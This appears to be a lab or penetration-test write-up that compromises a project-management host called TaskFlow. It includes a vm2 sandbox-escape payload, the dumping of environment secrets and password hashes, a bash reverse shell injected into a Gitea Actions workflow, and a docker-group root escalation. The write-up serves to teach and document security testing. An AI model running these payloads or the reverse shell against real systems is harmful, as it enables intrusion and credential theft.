







! You have been hired to perform a penetration test against the client's development infrastructure. The dev team relies heavily on a project management application, which they have provided you access to.
! Your task is to start as an unauthenticated attacker, identify all vulnerabilities, and demonstrate full impact by compromising the underlying host (if possible).
! The client has provided you with VPN access to their environment, but no other information.

## [01] Port Scan and Service Discovery
```term
$ sudo nmap -p- -sC -sV -vv --max-retries=0 -oN scans/nmap_all_tcp.txt 10.1.50.189

PORT   STATE SERVICE REASON         VERSION

!!22/tcp open  ssh     syn-ack ttl 62 OpenSSH 10.5 (protocol 2.0)
!!80/tcp open  http    syn-ack ttl 62 nginx 1.30.4
!!|_http-title: Did not follow redirect to http://taskflow.hsm/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.30.4
```

> We get a hostname 'taskflow.hsm', which we can add to the /etc/hosts file.

## [02] Dumping Database via Sandbox Escape

Navigating to the site we can see a few different links, most notably the "Blog" endpoint. We can get a good idea of what TaskFlow is capable of.


Skimming through the links we find something very interesting, the `Introducing the Automation Sandbox` blog states that the Node.js sandbox is using the `vm` module. Let's create an account and see if we can access the sandbox. We can see that after creating an account, we have much more functionality with the site. Under the `Automations -> Test Automation Code` tabs, we are given the aforementioned sandbox to run JavaScript code.



Looking for vm module exploits we can find a github advisory [here](https://github.com/patriksimek/vm2/security/advisories/GHSA-99p7-6v5w-7xg8). 
We can plug the following code into the sandbox and see if it executes:
```js
const error = new Error();
error.name = Symbol();
const f = async () => error.stack;
const promise = f();
promise.catch(e => {
    const Error = e.constructor;
    const Function = Error.constructor;
    const f = new Function(
        "process.mainModule.require('child_process').execSync('echo HELLO WORLD!', { stdio: 'inherit' })"
    );
    f();
});
```
After running the proof of concept code we see the output shows "Success". We can modify the script to see if we can print the reponse back and verify we have code execution. The updated code is as follows:
```js
const error = new Error();
error.name = Symbol();
const f = async () => error.stack;
const promise = f();

promise.catch(e => {
    const Error = e.constructor;
    const Function = Error.constructor;

    const f = new Function(
        "return process.mainModule.require('child_process').execSync('id;ls -la').toString()"
    );

    console.log(f());
});
```

And we see that we indeed have code execution.


> Note: I tried several payloads to get an outbound connection, but it seems as though the machine is not allowing outbound connections, enumeration will be done through the sandbox.

Looking through the source code files we stumble upon the following:
```js
const { Pool } = require('pg')

const pool = new Pool({
  connectionString: process.env.DATABASE_URL,
})

pool.on('error', (err) => {
  console.error('Unexpected DB pool error:', err.message)
})

module.exports = pool
```

It's grabbing environment variables, and so should we. Running `env` in the sandbox will show us all the configured environment variables.
```term
!!DATABASE_URL=xxxxxxxx
NODE_VERSION=20.20.1
HOSTNAME=d045dd66d0b9
YARN_VERSION=1.22.22
SHLVL=2
HOME=/home/sandbox
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
!!SANDBOX_SECRET=xxxxxxxx
PWD=/app
```

We can use `node` to connect to the database and dump the usernames and password hashes.


We can copy these back to our machine and attempt to crack them.
> Note: Notice there are only a few accounts registered as `*@taskflow.hsm`, these are the only ones I will attempt to crack at this time.

I was able to get one to crack:
```term
!!$2b$10$fw6qgEdg2fgb.e5ww3u45.ELfSNmiCYFoPqAv5M5Ol/.bU7nq7F2O:xxxxxxxx
```
We can log into our new users account, but there isn't much there. We can go back to the database and see what else there is. Looking at the executor.js again, we see a table called `comments` which could be valuable, let's dump it.



And we get another set of credentials, as well as were to use them.

## [03] Reverse Shell via Gitea Actions

Logging into gitea we can find the following message:



We have access to the .yml file. It also states the following:
> Configured Gitea Actions workflow for automated testing.
> Runs on every push to main branch.

We can attempt to inject some code here and see if we get a reverse shell back. However, when pushing the new yml file, I notice it consistantly fails and gives this error:


I will remove that function and add a reverse shell payload, so the new yml appears as such:
```yaml
name: TaskFlow CI

on:
  push:
    branches: [main]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: shell
        run: |
          /bin/bash -c '/bin/bash -i >& /dev/tcp/10.200.105.1/9001 0>&1'
          

      - name: Install dependencies
        run: |
          cd backend
          bun install

      - name: Run e2e tests
        run: |
          cd backend
          bun test:e2e 2>&1 || {
            echo "=== Tests failed ==="
            echo "Collecting build metadata for error report..."
```

Start our nc listener, push to main, and wait.

```term
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.200.105.1] from (UNKNOWN) [10.1.42.230] 49602
!!┌─[echoes@TaskFlow]──[~/.cache/act/fdec4c0e2c073f36/hostexecutor]
!!└─▶
```

## [04] Privilege Escalation via 

We can find an interesting `todo.txt` file in our new home directory that reads as such:
```term
Hi echoes Im randy I accessed via ssh because I was tasked with updating your weird ass shell or whatever but the admin left the sudo like a mess how was it? like sudo pacman something? idk can you just update it yourself?
```

We also see we are in the `docker` group.
```
┌─[echoes@TaskFlow]──[/opt/packages]
└─▶ id
!!uid=1000(echoes) gid=1000(echoes) groups=1000(echoes),970(docker),998(wheel)
```

We can run `deepce.sh` which is a docker enumeration script.

```term
┌─[echoes@TaskFlow]──[/tmp]
└─▶ bash deepce.sh

                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __
     ____/ /__  ___  ____  ________
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/

 Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
 by stealthcopter

==========================================( Colors )==========================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check
[+] Negative Test ........... No
[+] Multi line test ......... Yes
Command output
spanning multiple lines

Tips will look like this and often contains links with additional info. You can usually
ctrl+click links in modern terminal to open in a browser window
See https://stealthcopter.github.io/deepce

===================================( Enumerating Platform )===================================
[+] Inside Container ........ No
[+] User .................... echoes
[+] Groups .................. echoes docker wheel
[+] Sudo .................... Password required
!![+] Container tools ......... Yes
/usr/bin/docker
[+] Docker Executable ....... /usr/bin/docker
[+] Docker version .......... 29.7.2
[+] Rootless ................ No
!![+] User in Docker group .... Yes
Users in the docker group can escalate to root on the host by mounting the host
partition inside the container and chrooting into it.
deepce.sh -e DOCKER
See https://stealthcopter.github.io/deepce/guides/docker-group.md

!![+] Docker Sock ............. Yes
srw-rw---- 1 root docker 0 Oct  8 01:28 /var/run/docker.sock
!![+] Sock is writable ........ Yes
The docker sock is writable, we should be able to enumerate docker, create containers
and obtain root privs on the host machine
See https://stealthcopter.github.io/deepce/guides/docker-sock.md

To see full info from the docker sock output run the following

curl -s --unix-socket /var/run/docker.sock http://localhost/info

KernelVersion:7.2.4-arch1-2
OperatingSystem:Arch Linux
OSType:linux
Architecture:x86_64
NCPU:2
DockerRootDir:/var/lib/docker
Name:TaskFlow
ServerVersion:29.7.2
Namespaces:{Containers:moby
[+] Docker Version .......... 29.7.2
[+] CVE–2019–13139 .......... No
[+] CVE–2019–5736 ........... No
==================================( Enumerating Containers )==================================
[+] Docker Containers........ 4 Running, 4 Total
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS                 PORTS                      NAMES
8f176c456fa1   oven/bun:1-alpine    "/usr/local/bin/dock…"   3 weeks ago    Up 2 hours             127.0.0.1:4321->4321/tcp   taskflow-frontend
537d7afa9096   oven/bun:1-alpine    "/usr/local/bin/dock…"   3 weeks ago    Up 2 hours             127.0.0.1:3000->3000/tcp   taskflow-backend
56d6f7d485e5   postgres:16-alpine   "docker-entrypoint.s…"   3 weeks ago    Up 2 hours (healthy)   5432/tcp                   taskflow-db
d045dd66d0b9   taskflow-sandbox     "docker-entrypoint.s…"   6 months ago   Up 2 hours (healthy)   3001/tcp                   taskflow-sandbox
==============================================================================================
```

It shows we have a couple ways to privesc. Following the guide [here](https://stealthcopter.github.io/deepce/guides/docker-group.md), we can attempt to run the following with a docker image of our choice:
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash
```
I will choose the `oven/bun:1-alpine` and attempt to escalate to root.

??┌─[echoes@TaskFlow]──[/tmp]
??└─▶ docker run -v /:/mnt --rm -it oven/bun:1-alpine chroot /mnt /bin/bash
??[root@5aade71d0c1c /]# whoami
!!root
[root@5aade71d0c1c /]#
